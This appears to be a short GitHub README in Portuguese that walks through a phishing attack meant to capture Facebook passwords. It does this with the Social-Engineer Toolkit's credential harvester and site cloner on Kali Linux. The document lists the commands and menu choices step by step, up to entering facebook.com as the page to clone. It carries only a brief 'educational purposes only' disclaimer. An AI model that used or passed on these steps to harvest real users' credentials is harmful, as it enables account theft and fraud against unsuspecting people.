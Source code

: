 # Phishing para Captura de Senhas do Facebook - Kali Linux

Este repositório fornece um guia básico para configurar um ataque de phishing com o objetivo de capturar credenciais do Facebook. **Este material é apenas para fins educacionais e deve ser usado de forma ética e responsável.**

## Ferramentas Necessárias
- **Kali Linux**
- **SET (Social-Engineer Toolkit)**

## Configuração do Phishing no Kali Linux
```bash
# Obtenha acesso root
sudo su

# Inicie o Social-Engineer Toolkit
setoolkit

# Escolha o tipo de ataque:
# Social-Engineering Attacks

# Escolha o vetor de ataque:
# Web Site Attack Vectors

# Escolha o método de ataque:
# Credential Harvester Attack Method

# Configure o ataque:
# Escolha Site Cloner para clonar um site legítimo.

# Obtenha o endereço da máquina:
ifconfig

# Insira a URL para clonar:
# Exemplo: http://www.facebook.com
```

## Resultado

![image](https://github.com/user-attachments/assets/79dfe131-777e-46f4-9159-e0e6039665f6)

